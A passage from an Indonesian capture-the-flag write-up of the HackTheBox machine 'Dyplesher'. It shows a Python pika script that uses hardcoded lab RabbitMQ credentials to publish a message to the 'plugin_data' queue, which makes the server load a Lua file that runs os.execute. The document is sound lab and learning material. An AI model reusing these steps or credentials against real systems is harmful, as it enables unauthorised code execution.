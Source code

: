 Sehingga untuk membuat pluginnya Cuberite yang akan kita inject kita bisa menggunakan script dalam bahasa Lua

Juga perlu diingat kembali karena firewall yang melarang outbound connection, script Lua kita harus berada di mesin dyplesher tersebut sendiri.

Sekarang bagaimana caranya kita metrigger "publish" yang tadi di minta oleh felamos? Kita bisa menggunakan python module Pika [https://www.rabbitmq.com/tutorials/tutorial-three-python.html](https://www.rabbitmq.com/tutorials/tutorial-three-python.html)

Dengan menggunakan referensi dari [https://pika.readthedocs.io/en/stable/intro.html](https://pika.readthedocs.io/en/stable/intro.html) dan informasi sebelumnya yang sudah didapatkan seperti credential, metode publish serta exchange/routing key nya. Penulis membuat script seperti dibawah ini

```
import pika

credentials = pika.PlainCredentials('yuntao', 'EashAnicOc3Op')
parameters = pika.ConnectionParameters('dyplesher.htb',5672,'/',credentials)

connection = pika.BlockingConnection(parameters)
channel = connection.channel()
channel.basic_publish(routing_key="plugin_data",body="http://127.0.0.1:8080/test.lua")
connection.close()
```

![Image](img/33.PNG)

Scriptnya error ketika di jalankan, mari kita tambahkan field exchange tapi tidak diisi karena kita tidak mengetahui exchange mana tujuan yang di post walaupun kita tau routing_key yang dituju

```
import pika

credentials = pika.PlainCredentials('yuntao', 'EashAnicOc3Op')
parameters = pika.ConnectionParameters('dyplesher.htb',5672,'/',credentials)

connection = pika.BlockingConnection(parameters)
channel = connection.channel()
channel.basic_publish(exchange="", routing_key="plugin_data",body="http://127.0.0.1:8080/test.lua")
connection.close()
```

Penulis juga menyiapkan file test.lua didalam folder yuntao

```
os.execute ("touch /home/yuntao/testfile")
```
Perlu diingat harus ada spasi diantara os.execute dan argument yang diberikan dan pastikan script lua memiliki permission untuk execute
